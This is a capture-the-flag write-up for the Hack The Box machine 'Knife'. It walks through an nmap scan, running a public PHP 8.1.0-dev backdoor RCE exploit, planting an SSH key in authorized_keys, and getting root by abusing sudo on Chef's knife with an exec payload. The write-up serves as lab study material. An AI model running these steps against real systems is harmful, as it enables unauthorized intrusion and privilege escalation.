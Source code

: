 ## ----------->> Knife <<-------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.242 -p-
-----    

    Nmap scan report for 10.10.10.242
    Host is up (0.31s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
    |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
    |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title:  Emergent Medical Idea
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Nvigating to website http://10.10.10.242/

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Knife/1.png)

// Tried some directories searchs(gobuster, dirsearch, feroxbuster) but didnt get much...

// So i tried other approach let see the head of request

    $ curl -i http://10.10.10.242/
-----

    HTTP/1.1 200 OK
    Date: Wed, 04 Aug 2021 08:37:46 GMT
    Server: Apache/2.4.41 (Ubuntu)
    X-Powered-By: PHP/8.1.0-dev
    Vary: Accept-Encoding
    Transfer-Encoding: chunked
    Content-Type: text/html; charset=UTF-8
    
// Notice: PHP/8.1.0-dev 

// Searching in ExploitDB result me interesting python script for RCE (Remote Code Execution)

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Knife/2.png)
    
// Lets download that script and run him

    $ wget https://www.exploit-db.com/download/49933
----

    $ python3 49933
    Enter the full host url:
    http://10.10.10.242/

    Interactive shell is opened on http://10.10.10.242/ 
    Can't acces tty; job crontol turned off.
    $ id
    uid=1000(james) gid=1000(james) groups=1000(james)

// We got a shell !!! and the flag !!!

    $ cat /home/james/user.txt
    62fb412........................


// since we got SSH service open and a shell Lets try import our pub key to authorized_key of james 

// First generate a ssh key 

    $ ssh-keygen
    
    $ ls
    id_rsa  id_rsa.pub
    
// Copy the public key (id_rsa.pub)

// Now, on targeted host make file 'authorized_keys' (if there isnt)

    $ touch /home/james/.ssh/authorized_keys
    
// and import the key to 'authorized_keys'

    echo "ssh-rsa AAAAB3NzaC1yc......4mb5RwC/b8uyZRc= kali@kali" >> /home/james/.ssh/authorized_keys
    
// Now we can SSH to host with user james

    $ ssh -i id_rsa james@10.10.10.242
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

    james@knife:~$ 

### -------Privilleges Escalation-------

// Lets check james 'sudo' permissions

    james@knife:~$ sudo -l
    Matching Defaults entries for james on knife:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User james may run the following commands on knife:
        (root) NOPASSWD: /usr/bin/knife
        
// We can see that james can run 'knife' with 'sudo'(root) permissions

// Lets check what its 'knife'

    james@knife:~$ knife
    ERROR: You need to pass a sub-command (e.g., knife SUB-COMMAND)

    Usage: knife sub-command (options)
        -s, --server-url URL             Chef Infra Server URL.
            --chef-zero-host HOST        Host to start Chef Infra Zero on.
            --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
        -k, --key KEY                    Chef Infra Server API client key.
            --[no-]color                 Use colored output, defaults to enabled.
        -c, --config CONFIG              The configuration file to use.
            --config-option OPTION=VALUE Override a single configuration option.
            --defaults                   Accept default values for all questions.
        -d, --disable-editing            Do not open EDITOR, just accept the data as is.
        -e, --editor EDITOR              Set the editor to use for interactive commands.
        -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
            --[no-]fips                  Enable FIPS mode.
        -F, --format FORMAT              Which format to use for output. (valid options: 'summary', 'text', 'json', 'yaml', or 'pp')
            --[no-]listen                Whether a local mode (-z) server binds to a port.
        -z, --local-mode                 Point knife commands at local repository instead of Chef Infra Server.
        -u, --user USER                  Chef Infra Server API client username.
            --print-after                Show the data after a destructive operation.
            --profile PROFILE            The credentials profile to select.
        -V, --verbose                    More verbose output. Use twice (-VV) for additional verbosity and three times (-VVV) for maximum verbosity.
        -v, --version                    Show Chef Infra Client version.
        -y, --yes                        Say yes to all prompts for confirmation.
        -h, --help                       Show this help message.

        ........
        
        ** USER COMMANDS **
        knife user create USERNAME DISPLAY_NAME FIRST_NAME LAST_NAME EMAIL PASSWORD (options)
        knife user delete USER (options)
        knife user dissociate USERNAMES
        knife user edit USER (options)
        knife user invite add USERNAMES
        knife user invite list
        knife user invite rescind [USERNAMES] (options)
        knife user key create USER (options)
        knife user key delete USER KEYNAME (options)
        knife user key edit USER KEYNAME (options)
        knife user key list USER (options)
        knife user key show USER KEYNAME (options)
        knife user list (options)
        knife user reregister USER (options)
        knife user show USER (options)

        ........
        
        ** YAML COMMANDS **
        knife yaml convert YAML_FILENAME [RUBY_FILENAME]
        
        ........
        
// we can see at the description that 'knife' uses 'ruby' sources scripts([RUBY_FILENAME]) and we can run a configuration file (-c, --config CONFIG              The configuration file to use.)

// First lets make configuration file 

    james@knife:~$ cat config.rb 
    exec "/bin/bash -i"

// lets run this file with 'knife' USER command 'user list' 

    james@knife:~$ sudo knife user list -c config.rb 
    root@knife:/home/james# id
    uid=0(root) gid=0(root) groups=0(root)
    root@knife:/home/james# cat /root/root.txt
    059c752d...........................

// We got root flag !!!

// Other way to get root flag its to use 'ruby's' 'exec'

    james@knife:~$ sudo knife exec --exec "exec '/bin/sh -i'"
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    059c752d........................

